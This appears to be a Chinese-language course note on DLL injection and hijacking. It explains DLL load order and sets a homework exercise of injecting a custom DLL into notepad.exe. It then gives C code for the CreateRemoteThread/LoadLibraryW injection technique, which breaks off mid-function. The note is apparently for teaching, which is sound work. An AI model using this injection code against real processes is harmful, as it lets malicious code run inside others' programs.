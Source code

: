 - hacker 编写 DLL(恶意代码) 注入 正常程序(victim)
- DLL 加载顺序：当前路径 -> 系统路径
- DLL 劫持：当前目录下放 kernel32.dll 调用系统目录下的 kernel32.dll

- https://github.com/fdiskyou/injectAllTheThings
- `CreateRemoteThread()`远程创建线程，如进程A为进程B创建线程：Creates a thread that runs in the virtual address space of another process.
- `Process32First`和`Process32Next`遍历当前操作系统当中的所有进程
- 通过进程名获得 PID
- 作业
  - 查文档，研究远程线程方式注入dll的实例代码的实现原理
  - 运行实例代码，向一个目标程序（比如notepad.exe)注入一个我们自行编写的dll，加载运行
  - 整合进程遍历的程序，使得攻击程序可以自己遍历进程得到目标程序的pid

```c
#include <stdio.h>
#include <Windows.h>
#include <tlhelp32.h>
#include "fheaders.h"

DWORD demoCreateRemoteThreadW(PCWSTR pszLibFile, DWORD dwProcessId)
{
	// Calculate the number of bytes needed for the DLL's pathname
	DWORD dwSize = (lstrlenW(pszLibFile) + 1) * sizeof(wchar_t);

	// Get process handle passing in the process ID
    // 如若权限不够，使用管理员权限运行
	HANDLE hProcess = OpenProcess(
		PROCESS_QUERY_INFORMATION |
		PROCESS_CREATE_THREAD |
		PROCESS_VM_OPERATION |
		PROCESS_VM_WRITE,
		FALSE, dwProcessId);
	if (hProcess == NULL)
	{
		wprintf(TEXT("[-] Error: Could not open process for PID (%d).\n"), dwProcessId);
		return(1);
	}

	// Allocate space in the remote process for the pathname
	LPVOID pszLibFileRemote = (PWSTR)VirtualAllocEx(hProcess, NULL, dwSize, MEM_COMMIT, PAGE_READWRITE);
	if (pszLibFileRemote == NULL)
	{
		wprintf(TEXT("[-] Error: Could not allocate memory inside PID (%d).\n"), dwProcessId);
		return(1);
	}

	// Copy the DLL's pathname to the remote process address space
	DWORD n = WriteProcessMemory(hProcess, pszLibFileRemote, (PVOID)pszLibFile, dwSize, NULL);
	if (n == 0)
	{
		wprintf(TEXT("[-] Error: Could not write any bytes into the PID [%d] address space.\n"), dwProcessId);
		return(1);
	}

	// Get the real address of LoadLibraryW in Kernel32.dll
	PTHREAD_START_ROUTINE pfnThreadRtn = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
	if (pfnThreadRtn == NULL)
	{
		wprintf(TEXT("[-] Error: Could not find LoadLibraryA function inside kernel32.dll library.\n"));
		return(1);
```
